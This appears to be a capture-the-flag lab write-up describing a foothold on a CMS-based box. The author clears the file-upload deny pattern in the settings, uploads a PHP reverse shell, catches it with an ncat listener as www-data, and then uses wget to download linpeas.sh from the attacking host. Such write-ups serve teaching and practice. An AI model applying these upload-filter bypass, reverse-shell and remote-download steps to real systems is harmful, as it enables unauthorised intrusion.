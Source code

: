 # Foothold
![[Pasted image 20221231200215.png]]
- The settings panel
![[Pasted image 20221231200254.png]]
- The easiest way I think is through file upload, where we basically upload a PHP reverse shell
![[Pasted image 20221231200428.png]]
- As we can notice, we can upload a shell to the system. Let's get our PHP rev. shell ready
```sh
-rw-r--r-- 1 sami sami 5.4K Dec 31 20:06 prs.php
```
- The PHP rev. shell is ready let's upload it
![[Pasted image 20221231200807.png]]
- We see that it's not allowing the upload, I guess it's due to the extension so let's change it
![[Pasted image 20221231200944.png]]
- Again denied, let's find out if we can modify upload filters in the settings somehow
![[Pasted image 20221231201556.png]]
- Going to 'Configure Installation-Wide Options' > Backend [BE] > [BE][fileDenyPattern] is set to empty space > Write Configuration > close 
![[Pasted image 20221231201730.png]]
- Attempting to upload the rev. shell
![[Pasted image 20221231201852.png]]
- Good, let's set up a listener on the attacking machine
```sh
⚡ ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
# Reverse shell
```sh
⚡ ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.47.8.
Ncat: Connection from 10.10.47.8:50562.
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 13:25:05 up  5:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- Now that we have access to the server, let's enumerate what we can do to escalate out privileges
```sh
$ wget http://10.11.4.14:8001/linpeas.sh
--2022-12-31 13:36:15--  http://10.11.4.14:8001/linpeas.sh
Connecting to 10.11.4.14:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827827 (808K) [application/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  431K 2s
    50K .......... .......... .......... .......... .......... 12%  887K 1s
   100K .......... .......... .......... .......... .......... 18%  893K 1s
```